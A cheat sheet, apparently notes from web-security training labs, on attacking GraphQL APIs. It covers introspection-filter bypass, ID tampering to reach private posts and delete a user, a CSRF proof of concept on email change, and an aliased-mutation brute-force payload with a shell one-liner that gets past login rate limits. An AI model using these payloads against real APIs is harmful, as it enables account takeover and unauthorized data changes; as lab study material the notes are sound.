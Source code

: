 ```
Set Instrospection query to search for private Posts
-> Send to repeater the graphQL request of a blog post
-> change id in variables to the private one and add the method found on the instrospection


Generate queries with InQL scanner to find hidden fields, send to repeater and change variables, for example, id:!Int -> id:1 for admin


/api found
-> query not found: ?query=query{__typename}
-> Instrospection query, _schema not allowed, in raw append %0a to bypass
-> Right click, grpahQL, save graphQL queries to site map
-> In site map observer a deleteOrganizationUser query
-> Send to repeater and change id to 3 to delete carlos



Burte Force login endpoint bypassig blocks
-> Save Instrospection queries to site map
-> Send Login query from graphQL to repeater and then intruder
-> Notice you are blocked by many requests
-> Update the GrapQL query in repeater so the burte force is done in just one query:
mutation {
  bruteforce123456: login(input: {username:"carlos",password:"123456"}) {
     token
     success
    }
bruteforcepassword: login(input: {username:"carlos",password:"password"}) {
     token
     success
    }
bruteforce12345678: login(input: {username:"carlos",password:"12345678"}) {
     token
     success
    }
...
-> Use this oneliner to autoamte and paste:
for x in $(cat ../passwords.txt);do echo 'bruteforce'$x': login(input: {username:"carlos",password:"'$x'"}) {\n     token\n     success\n    }';done
-> search for status: success



Attempt a CSRF of changeEmail or similar
-> Change Content-Type to www-x-form-urlencoded
-> Change body to correct syntax:
query=mutation($input: ChangeEmailInput) {
				changeEmail(input: $input) {
				    email
				}
}
&variables={"input":{"email":"picha@test.com"}}
-> Generate CSRF PoC
```
